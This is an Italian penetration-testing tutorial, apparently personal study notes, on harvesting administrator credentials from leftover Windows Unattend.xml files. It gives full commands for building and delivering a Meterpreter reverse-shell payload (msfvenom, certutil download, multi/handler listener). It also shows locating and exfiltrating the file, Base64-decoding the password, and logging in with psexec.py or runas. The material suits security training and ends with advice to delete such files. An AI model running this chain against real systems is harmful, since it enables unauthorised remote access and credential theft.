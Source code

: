 # Ricerca di credenziali nei file Unattended di Windows

In ambienti enterprise, Windows consente di automatizzare molte operazioni ripetitive tramite strumenti come l’**installazione automatica**. Questa modalità viene spesso utilizzata per implementare Windows su molte macchine contemporaneamente o per configurare intere infrastrutture aziendali con impostazioni predefinite. Per farlo, Windows si serve di file XML contenenti tutti i parametri di configurazione.

Questi file, chiamati tipicamente `Unattend.xml` o `Autounattend.xml`, contengono al loro interno molte informazioni sensibili, inclusi i **nomi utente e le password** (in forma codificata) per gli account amministrativi. Il problema nasce quando questi file non vengono eliminati automaticamente dopo il completamento dell’installazione: in tal caso, possono rappresentare un’importante **fonte di credenziali** per un attaccante.

I percorsi comuni dove questi file vengono salvati sono:

- `C:\\Windows\\Panther\\Unattend.xml`
- `C:\\Windows\\Panther\\Autounattend.xml`

> Il percorso può variare a seconda della versione di Windows.

---

## 1 – Accesso iniziale alla macchina target

Non è necessario disporre di privilegi amministrativi per cercare questi file. È sufficiente ottenere una sessione di Meterpreter tramite una **reverse shell**.  
Per iniziare, si genera un payload con `msfvenom` specificando architettura e tipo di connessione:

`msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<IPKali> LPORT=<KaliPORT> -f exe > payload.exe` <br>
generando un payload eseguibile per Windows 64-bit. <br>

Per distribuire il payload, si può usare un semplice web server Python nella directory corrente:

`python -m SimpleHTTPServer 80` ⟶ condivide in HTTP tutti i file presenti nella directory corrente (per Python 2.x). <br>

---

## 2 – Trasferimento del payload alla macchina target

Dalla macchina target, è possibile scaricare il file malevolo ospitato sul web server Kali tramite il comando:

`certutil -urlcache -f http://<IPKali>/payload.exe payload.exe` ⟶ scarica il payload tramite HTTP e lo salva in locale. <br>

> `certutil` è uno strumento nativo di Windows, spesso disponibile anche su sistemi con restrizioni limitate.

---

## 3 – Avvio del listener e ottenimento della sessione

Dalla macchina di attacco si avvia `msfconsole` e si imposta un **multi/handler**:

`use multi/handler` ⟶ carica il listener per la reverse shell. <br>
`set payload windows/x64/meterpreter/reverse_tcp` ⟶ specifica il payload. <br>
`set LHOST <IPKali>` ⟶ IP Kali. <br>
`set LPORT <KaliPORT>` ⟶ porta in ascolto specificata su msfvenom. <br>
`run` ⟶ avvia il listener. <br>

Mentre il listener é attivo, possiamo eseguire il payload precedentemente generato per aprire una reverse shell.

---

## 4 – Ricerca dei file di configurazione

Una volta ottenuta la sessione, ci si sposta nella radice del file system:

`cd C:\\` ⟶ cambia directory alla radice del disco. <br>
`search -f Unattend.xml` ⟶ cerca in tutto il file system i file con quel nome. <br>

Quando viene individuato il file:

`download Unattend.xml` ⟶ scarica il file sulla macchina attaccante. <br>

---

## 5 – Estrazione e decodifica della password

Una volta scaricato il file, è possibile aprirlo per esaminarne il contenuto:

`cat Unattend.xml` ⟶ visualizza il contenuto XML. <br>

La sezione di interesse è simile a questa:
```
<AutoLogon> 
  <Password> 
    <Value>UGFzc3dvcmREaVNpY3VyaXphdGE=</Value> 
    <PlainText>false</PlainText> 
  </Password> 
  <Enabled>true</Enabled> 
  <Username>administrator</Username> </AutoLogon>
```
In questo esempio, la password è codificata in Base64. Per decodificarla:

Copiare il valore tra i tag `<Value>` in un file .txt <br>
per poi successivamente decifrare la password (criptata in base 64) con il comando: <br>
`base64 -d file.txt` <br>
per ottenere la password in chiaro.

## 6 – Accesso con credenziali ottenute
Una volta decodificata la password, possiamo usarla per autenticarsi con psexec.py da Impacket:

`psexec.py <username>@<IP>`⟶ avvia una sessione remota autenticata. <br>

Verrà richiesta la password e dovremmo quindi inserire quella ottenuta dalla decodifica.

Questo metodo consente di ottenere un accesso completo e legittimo con l’account amministrativo, senza dover bypassare controlli ulteriori.

## 7 - Autenticazione dal target

Dopo che avremo trovato la password, possimao anche accedere a quel determinato utente se siamo gia dentro una sessione aperta nel target
usando il comando <br>
`runas.exe /user:<username> cmd` ⟶ avvia cmd con l'utente specificato <br>
che serve per eseguire un programma o comando con le credenziali di un altro utente
 
## Conclusione
La presenza di file Unattend.xml o Autounattend.xml con credenziali codificate rappresenta una minaccia reale in infrastrutture poco gestite. È fondamentale per le aziende eliminare questi file al termine dell’installazione automatica per non esporre l’intero dominio a rischi di compromissione.

